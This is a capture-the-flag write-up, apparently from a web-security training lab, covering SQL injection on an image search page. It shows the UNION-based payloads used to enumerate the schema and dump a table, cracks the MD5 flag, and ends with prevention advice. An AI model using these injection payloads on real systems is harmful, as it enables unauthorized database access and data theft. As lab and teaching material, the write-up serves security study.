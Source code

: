 # SQL Injection: Image Search Page Vulnerability

## Overview

A SQL Injection vulnerability on the Image Search page, allows attackers extract database details and sensitive content.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1' OR TRUE`
- Result: With single quote did not work.

- Enter `1 OR TRUE` in the image ID input field.
- Result: All 5 images are displayed, confirming SQL injection.

### 2. Extract DB and Table Info
- Enter `-1 union select database(), user()` in the ID field.
- Result:  
  - **ID:** -1 union select database(), user()  
  - **Title:** borntosec@localhost  
  - **Url:** Member_images

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Enter `-1 UNION SELECT table_name, column_name FROM information_schema.columns` in the ID field.
- Result: Reveals table/column names, e.g.:  
  `list_images (id, url, title, comment)`


### 4. Dump Table Data
- Enter `-1 UNION SELECT concat(id, url), concat(title,comment) FROM list_images` in the ID field.
- Result: Shows all image data, including a challenge.

---

## Challenge: Crack the Flag

- **Extracted MD5 hash:** `1928e8083cf461a51303633093573c46`
- **How to decode:**  
  Use online services like [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to look up or crack MD5 hashes.

- **MD5 decrypted:** `albatroz`  
- **Convert to lowercase:** `albatroz`  
- **Get SHA256:**

    ```bash
    echo -n 'albatroz' | sha256sum
    ```

- **Flag:**  
  `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM list_images WHERE id = ?");
    $stmt->bind_param("i", $id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege accounts
    - Suppress detailed error messages
    - Monitor DB activity

4. **Web Application Firewall**
    - Deploy a WAF to block known attack patterns

5. **Regular Security Testing**
    - Conduct routine scans and penetration tests

---

> Even basic input validation failures can lead to total database compromise. Always validate and sanitize user input.
